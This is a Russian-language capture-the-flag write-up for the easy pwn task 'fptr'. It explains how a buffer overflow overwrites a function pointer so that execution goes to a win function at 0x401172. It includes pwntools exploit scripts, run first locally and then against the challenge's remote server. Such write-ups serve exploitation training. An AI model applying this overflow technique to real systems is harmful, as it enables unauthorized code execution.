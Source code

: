 
# Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: fptr
# Сложность: Easy

Данное задание очень похоже на предыдущее ходом решения, однако, здесь мы затираем переменную, которая сожержит адрес функции. Посмотрим исходный код программы: <br />
![image](https://github.com/user-attachments/assets/316ac8ee-6871-4119-baf2-3c6d5c22d2bf)

Здесь все просто, считываем буфер, после того, как буфер считан, выполнится инструкция `call edx`, которая и вызовет функцию по указанному адресу: <br />
![image](https://github.com/user-attachments/assets/b1b2b4bb-6fd4-430f-9172-894eaec4c161)
Введем 4 буквы `a` и посмотрим на состояние стека: <br />
![image](https://github.com/user-attachments/assets/1667b659-cc59-4523-8f05-f55eef968786)
При таком вводе, адрес не переписывается, поэтому переполним буфер и запишем новый адрес. Посмотрим как адрес у функции `win`: <br />
![image](https://github.com/user-attachments/assets/76e938ff-5656-4813-8fbc-8ef5e46d9155)
Адрес у данной функции `0x401172`. Напишем скрипт и посмотрим получится ли получить локальный флаг: <br />

```py
from pwn import * 

p = process('./fptr')
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/3c1fb947-80b9-4342-8877-bdba66f5c8e5)

```py
from pwn import *

p = remote('109.233.56.90', 11601)
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/8a9d397a-944e-4fab-ad4a-c0f2d95bfd25)


